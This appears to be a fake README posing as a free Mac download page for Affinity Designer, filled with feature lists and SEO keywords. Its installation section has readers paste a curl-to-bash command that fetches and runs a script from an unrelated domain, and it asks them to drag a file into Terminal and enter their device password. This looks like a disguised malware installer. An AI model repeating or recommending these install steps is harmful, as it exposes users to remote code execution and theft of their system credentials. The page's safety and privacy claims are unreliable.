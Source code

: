 # Affinity Designer for Mac 🎨💡

Affinity Designer Creative Suite is a powerful, lightweight design application built on the award-winning Affinity Designer engine. It combines precise vector editing with real-time raster design, giving you the best of both worlds for crafting logos, illustrations, UI mockups, and detailed digital artwork. Whether you're a freelance illustrator, UI/UX expert, or marketing designer, this suite provides the creative tools you need without the heavy system requirements of legacy software.

[![Download Affinity Designer](https://img.shields.io/badge/Download-Affinity_Designer-blueviolet)](https://affinity-designer-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)





### 🧰 Key Features

- 🖋️ Seamless vector and raster editing in a single environment  
- 🎚️ Advanced grid, snapping, and alignment tools for pixel-perfect layout  
- 🎨 Precise color controls with CMYK, RGB, LAB, and Pantone libraries  
- 🧩 Real-time effects, blend modes, and non-destructive layers  
- 🖼️ Artboards, symbols, and reusable components for fast prototyping  
- 🧠 Optimized performance with lightning-fast zoom, pan, and rendering

---

### 🛠️ Why Choose Affinity Designer?

- 💾 Lightweight yet professional alternative to complex suites  
- 🛠️ Cross-platform support on Windows, macOS, and iPad  
- 🚫 No subscription model — one-time install and full access  
- 🧪 Ideal for web, app, branding, and print design  
- ⚡ GPU-accelerated interface with real-time rendering

---

### 🚀 Usage Examples

- 🧱 Design pixel-perfect icons and responsive UI layouts  
- 🖍️ Create vector illustrations for books, ads, or packaging  
- 📲 Build app mockups and social media visuals  
- 🖼️ Develop logo systems and brand guidelines  
- 🎯 Prepare presentation graphics, charts, and infographics

---

### 🏆 Benefits

- 🧩 Single-click export to all major file formats (SVG, PNG, PDF, EPS, PSD)  
- ✨ Non-destructive workflow with instant undo/redo history  
- 🧠 Intuitive interface designed for creatives  
- 💼 Ideal for freelancers, startups, and in-house design teams  
- 🧘‍♂️ Less clutter, more creativity — without performance lags

---

### 🔒 Safety & Privacy

- 🔐 Fully offline-compatible — no cloud required  
- 🗃️ Your files stay private, on your device  
- 🧩 No telemetry, tracking, or third-party scripts  
- 🛠️ Secure installation, no API keys needed

---

### 🖼 Preview

**1. Dual Vector & Raster Workspace**  
![Vector Raster Workspace](https://cdn.serif.com/affinity/img/designer/home/0824/slider/designer-width-tool-020820240816--lg@2x.png)  
Intuitive editing for both pixel and vector graphics in real-time.

**2. UI/UX Design Layout**  
![UI Design](https://cdn.serif.com/affinity/img/designer/home/0824/slider/designer-gridsguides-020820240816--lg@2x.png)  
Design responsive UI layouts and export optimized assets.

**3. Illustration Workflow**  
![Illustration](https://store-images.s-microsoft.com/image/apps.15236.13958375025616560.59a44a0e-a9e5-4919-a4aa-4d18dd01515c.38b2341b-e2fc-44ec-9760-e3749e24c122)  
Create illustrations with layers, brushes, and blend modes.

---

### 🔎 SEO Keywords

`affinity designer mac`, `affinity photo mac download`, `affinity for mac`, `affinity photo mac`, `affinity publisher mac`,  
`affinity software for mac`, `affinity designer download mac`, `affinity photo software mac`, `affinity designer macbook`,  
`affinity publisher download mac`, `affinity photo macos`, `affinity designer mac os`, `affinity publisher mac os`,  
`affinity suite mac`, `affinity apps for mac`, `affinity macbook pro`, `affinity design software mac`, `affinity photo editing mac`,  
`affinity creative suite mac`, `affinity graphic design mac`, `affinity tools for mac`, `affinity mac download`,  
`affinity photo for macbook air`, `affinity mac installer`, `affinity photo free mac`
